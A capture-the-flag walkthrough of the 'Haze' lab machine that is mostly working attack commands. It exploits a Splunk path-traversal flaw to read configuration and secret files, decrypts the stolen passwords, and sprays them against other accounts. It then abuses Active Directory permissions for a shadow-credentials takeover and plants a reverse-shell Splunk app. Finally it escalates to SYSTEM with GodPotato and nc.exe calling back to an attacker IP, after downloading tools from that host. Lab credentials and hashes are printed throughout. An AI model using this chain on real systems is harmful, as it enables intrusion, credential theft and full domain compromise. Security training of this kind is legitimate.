/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Windows/win.ini
```



there’s Nuclei template available for this vulnerability as well

https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/refs/heads/main/http/cves/2024/CVE-2024-36991.yaml

```php
nuclei -t ./CVE-2024-36991.yaml -u http://10.10.11.61:8000
```



let’s include **`C:\Windows\System32\drivers\etc\hosts`** 



now i searched for the location where splunk credentials are stored 

i found it is stored at `Program Files/Splunk/etc/passwd`



https://orionx.foregenix.com/blog/pentesting-exploiting-cve-2024-36991-in-splunk-enterprise

we found 2 interesting files - ***splunk.secret*** and ***authentication.conf***



after reading a bit i found another interesting configuration file that we can try to get 

```php
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/system/local/authentication.conf'
```



nice we got the LDAP credentials but the password is encrypted to decrypt we can use https://github.com/HurricaneLabs/splunksecrets, we can install it using pip → `pip3 install splunksecrets --break-system-packages` 

but to decrypt the password we need secret 

```php
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/auth/splunk.secret'
```



and save it in secret file and let’s try to decrypt the password

```php
	splunksecrets splunk-legacy-decrypt -S secret
```



Nice we got the password - **`Ld@p_Auth_Sp1unk@2k24`**

now we have a name and password for paul taylor but i need specific username  to try login with, to find valid username i’ll be using kerbrute first create users.txt with common username formats 

```php
paul.taylor
ptaylor
p.taylor
taylor.p
paul.t
pault
tpaul
t.paul
paul_taylor
administrator
```

***Note: i used the administrator account, as it is always true to find if the output is correct or not***

```php
kerbrute userenum --dc 10.10.11.61 -d haze.htb users.txt
```



i verified this credential with SMB and LDAP using netexec

```php
sudo netexec ldap 10.10.11.61 -u paul.taylor -p Ld@p_Auth_Sp1unk@2k24
```



what i first do when i got valid credentials!, run the netexec with `--uses` option to enumerate users on the system

```php
sudo netexec smb 10.10.11.61 -u paul.taylor -p Ld@p_Auth_Sp1unk@2k24 --users
```



only one user!, hmm, let’s use bloodhound to get clear picture of Domain

```php
bloodhound-python -c all -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb -ns 10.10.11.61
```



but unfortunately we didn’t find any useful information from it as well, let’s use ldapsearch with credentials and we’ll surely get some useful info

```php
ldapsearch -H ldap://10.10.11.61 -b "DC=haze,DC=htb" -D "paul.taylor@haze.htb" -w 'Ld@p_Auth_Sp1unk@2k24
```

and save the output to file and while reading the output i found another 2 users which is not seen in bloodhound and netexec 



both users’s were member of `Remote Management users` group to confirm they are valid user’s i used previous format firstname.lastname and added both users to users.txt and run kerbrute again



now  as we have other users’s as well we’ll spary password to these usernames

```php
sudo netexec smb 10.10.11.61 -u users.txt -p Ld@p_Auth_Sp1unk@2k24 --continue-on-success
```



and bingo we got another valid creds, let’s see if the user has winrm access or not

```php
sudo netexec winrm 10.10.11.61 -u Mark.Adams -p Ld@p_Auth_Sp1unk@2k24
```



It’s Pwned!!

```php
evil-winrm -i 10.10.11.61 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24
```



still we didn’t get the user.txt yet, let’s continue our enumeration i found that mark.adams is the member of non-default windows group - gMSA_manager

```php
whoami /groups
```



let’s try to read GMSA (Group managed service Accounts) password via netexec

```php
sudo netexec ldap 10.10.11.61 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --gmsa
```



but it says we don’t have permissions to read

first i’ll check if user really has the permissions to read the gMSA password or not, and it shows that our user has no permissions to read the password as only Domain Admins can read it

```php
Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword
```



let’s check what permissions do we have on GMSA object (Haze-IT-Backup) account, i used powershell script from - https://blog.netwrix.com/2021/08/25/running-laps-in-the-race-to-security/

below is the powershell script that you can directly use to get permissions on the Haze-IT-Backup Account

```powershell
##Get the GUID of the extended attribute ms-ds-GroupMSAMembership from Schema
$schemaIDGUID = @{}
Get-ADObject -SearchBase (Get-ADRootDSE).schemaNamingContext -LDAPFilter '(name=ms-ds-GroupMSAMembership)' -Properties name, schemaIDGUID |
ForEach-Object {$schemaIDGUID.add([System.GUID]$_.schemaIDGUID,$_.name)}

<# **REPLACE DN VARIABLE BELOW**
Declare the samaccountname of the gMSA to search for#>
$target = 'CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb'

##Get distinguished name of all gMSAs objects from the OU
$gMSAs = Get-ADServiceAccount -identity $target

<#Get objects that have specific permissions on the target(s): 
Full Control(GenericAll) 
Write all Properties (WriteProperty where ObjectType = 00000000-0000-0000-0000-000000000000 
#>
Set-Location ad:
foreach ($gmsa in $gMSAs){
(Get-Acl $gmsa.distinguishedname).access | 
Where-Object { (($_.AccessControlType -eq 'Allow') -and ($_.activedirectoryrights -in ('GenericAll') -and $_.inheritancetype -in ('All', 'None')) -or (($_.activedirectoryrights -like '*WriteProperty*') -and ($_.objecttype -eq '00000000-0000-0000-0000-000000000000')))} |
ft ([string]$gmsa.name),identityreference, activedirectoryrights, objecttype, isinherited -autosize 
}
<#Get objects that have specific permissions on the target(s) and specifically the gMSA attribute:
WriteProperty 
#>
Set-Location ad:
foreach ($gmsa in $gMSAs){
(Get-Acl $gmsa.distinguishedname).access | 
Where-Object {(($_.AccessControlType -eq 'Allow') -and (($_.activedirectoryrights -like '*WriteProperty*') -and ($_.objecttype -in $schemaIDGUID.Keys)))} |
ft ([string]$gmsa.name),identityreference, activedirectoryrights, objecttype, isinherited -AutoSize
}
```

upload powershell script and run it

```powershell
powershell -ep bypass .\gmsapermissions.ps1
```



and we found that gMSA_Managers has the write permissions over the Haze-IT-Backup let’s edit property `PrincipalsAllowedToRetrieveManagedPassword` and add our user to it so we can possibly read the GMSA password

```powershell
Set-ADServiceAccount -Identity "CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb" -PrincipalsAllowedToRetrieveManagedPassword mark.adams
```

after running this command we can check if we got the permission to read password

```powershell
Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword
```



and now if we try to read the password we can get the NTLM hash of the Haze-IT-Backup account

```powershell
sudo netexec ldap 10.10.11.61 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --gmsa
```



now as i didn’t get much information from bloodhound when i ran it from my kali so i ran BloodHound.exe from the machine itself and got the information that we needed further



i found that Haze-IT-Backup is writeOwner of the group Support_Services group, and the support_services has forcechangepassword and AddKeyCredentials permissions over the edward martin user, so looks like [shadow credential attack](https://www.hackingarticles.in/shadow-credentials-attack/)



let’s add Haze-IT-Backup$ as owner to the support_service group

```powershell
impacket-owneredit -action write -new-owner 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' 'haze.htb'/'Haze-IT-Backup$' -dc-ip 10.10.11.61 -hashes 4de830d1d58c14e241aff55f82ecdba1:4de830d1d58c14e241aff55f82ecdba1
```



Now let’s give the WriteMembers permission to Haze-IT-Backup$ so we can add users to it and then we’ll add ourself as the user to the group

```powershell
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' 'haze.htb'/'Haze-IT-Backup$' -hashes :4de830d1d58c14e241aff55f82ecdba1
```



now we add ourself to support_services group

```powershell
bloodyAD --host 10.10.11.61 -d "haze.htb" -u "Haze-IT-Backup$" -p ":4de830d1d58c14e241aff55f82ecdba1" -f rc4 add groupMember 'SUPPORT_SERVICES' 'Haze-IT-Backup$'
```



first List all the current **KeyCredential IDs** and their **creation times** associated with the **DC$** object.

```powershell
pywhisker -d haze.htb -u "Haze-IT-Backup$" -H 4de830d1d58c14e241aff55f82ecdba1 --target "edward.martin" --action "list"
```



PyWhishker **add** functionality, will generates a public-private key pair and adds a new key credential to the target object 

```powershell
pywhisker -d "haze.htb" -u "Haze-IT-Backup$" -H "4de830d1d58c14e241aff55f82ecdba1" --target "edward.martin" --action "add" --filename edward
```



it will generate pfx file 

now we gain run list command to list the credentials associated with the user

```powershell
pywhisker -d haze.htb -u "Haze-IT-Backup$" -H 4de830d1d58c14e241aff55f82ecdba1 --target "edward.martin" --action "list"
```



now we request TGT for the edward.martin user

```powershell
python ~/offsec/tools/PKINITtools/gettgtpkinit.py -cert-pfx "$(pwd)/edward.pfx" -pfx-pass RqwFHvBA9ZTh2dvaiOsw haze.htb/edward.martin out.ccache
```



note this key, as we need this key while request for NT hash

now we export our TGT and request for NT hash

```powershell
export KRB5CCNAME=/home/kali/hackthebox/haze/out.ccache
```

request the NThash for the edward.martin user

```powershell
python ~/offsec/tools/PKINITtools/getnthash.py -key 40e05596335597bd372b1ad73916c3d21586137ea2affb932fcbff53009a5a75haze.htb/edward.martin
```



Nice we got the NT hash of the edward.martin user

### Another way - certipy-ad

certipy-ad  has `shadow auto` mode that wi’ll automate all this stuff, first need to change the ownership, give yourself add member permission, and yourself to support_services group and run certipy-ad

```powershell
certipy-ad shadow auto -u Haze-IT-Backup$ -hashes :4de830d1d58c14e241aff55f82ecdba1 -account edward.martin -dc-ip 10.10.11.61
```



***Note: The machine itself resetting privileges, so we need to do this fast i’ve created bash script that makes it automate***

```powershell
#!/bin/bash

echo -e "Changing ownership of Support-Services group..\n"
impacket-owneredit -action write -new-owner 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' 'haze.htb'/'Haze-IT-Backup$' -dc-ip 10.10.11.61 -hashes :4de830d1d58c14e241aff55f82ecdba1

echo -e "giving Add members permissions to Haze-IT-Backup User...\n"
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' 'haze.htb'/'Haze-IT-Backup$' -hashes :4de830d1d58c14e241aff55f82ecdba1

echo -e "adding user into support_services group...\n"
bloodyAD --host 10.10.11.61 -d "haze.htb" -u "Haze-IT-Backup$" -p ":4de830d1d58c14e241aff55f82ecdba1" -f rc4 add groupMember 'SUPPORT_SERVICES' 'Haze-IT-Backup$'

echo -e "getting membership of the support_services group..\n"
bloodyAD --host 10.10.11.61 -d "haze.htb" -u "Haze-IT-Backup$" -p ":4de830d1d58c14e241aff55f82ecdba1" -f rc4 get membership 'Haze-IT-Backup$'

echo -e "checking the members of support_services group..\n"
net rpc group members "support_services" -U "haze.htb"/"mark.adams"%"Ld@p_Auth_Sp1unk@2k24" -S 10.10.11.61

echo -e "performing shadow credential attack\n"
certipy-ad shadow auto -u Haze-IT-Backup$ -hashes :4de830d1d58c14e241aff55f82ecdba1 -account edward.martin -dc-ip 10.10.11.61
```

let’s check this credentials 

```powershell
sudo netexec winrm 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```



let’s login as edward.martin

```powershell
evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```



nice we got user.txt

let’s start our enumeration to get admin access



also i found our user is member of backup_reviewers

```powershell
whoami /groups
```



let’s see the access controls of the C:\Backups folder



we can see that we do have access to the backups folder

i found splunk backup inside it



download it using - `download splunk_backup_2024-08-06.zip` 

after unzipping file i found the administrator’s password inside it



to decrypt the hash we need `$7$` hash, let’s try to find it in this splunk directory

```powershell
grep -irF '$7$'
```

found 2 -3 hash but not decryptable

reading the https://github.com/HurricaneLabs/splunksecrets docs i found that there’s another algorithm `$1$` that might be crackable let’s search that as well



```powershell
grep -irF '$1$'
```



nice, let’s try to decrypt this

```powershell
splunksecrets splunk-decrypt -S splunk.secret
```



we got the password for splunk admin - Sp1unkadmin@2k24

and found that [alexander.green](http://alexander.green) is the memebr of Splunk_admin possibly it’s the alexander’s password



as we can see the user is not member of remote management users so we can not login using evil-winrm, let’s check if these are valid credentials for the splunk enterprise or not



i found https://github.com/0xjpuff/reverse_shell_splunk here we need to edit run.ps1 to add our kali machine’s IP and port

then 

```powershell
tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
```

start netcaat listener, now go to Apps > Manage >  Install > Click on ***Install app from file*** select spl file and install and we’ll get the shell



running `whoami /priv` we found that user has SeImpersonatePrivilege



i’ll use godpotato with nc.exe to get shell first i’ll download both in target machine

```powershell
iwr -uri http://10.10.14.12/nc64.exe -outfile nc.exe
iwr -uri http://10.10.14.12/GodPotato-NET4.exe -outfile godpotato.exe
```

now start listener on port 443 and run godpotato to get shell using nc.exe

```powershell
.\godpotato.exe -cmd "C:\temp\nc.exe 10.10.14.12 443 -e cmd"
```



we can see the process is started as **NT AUTHORITY\SYSTEM**

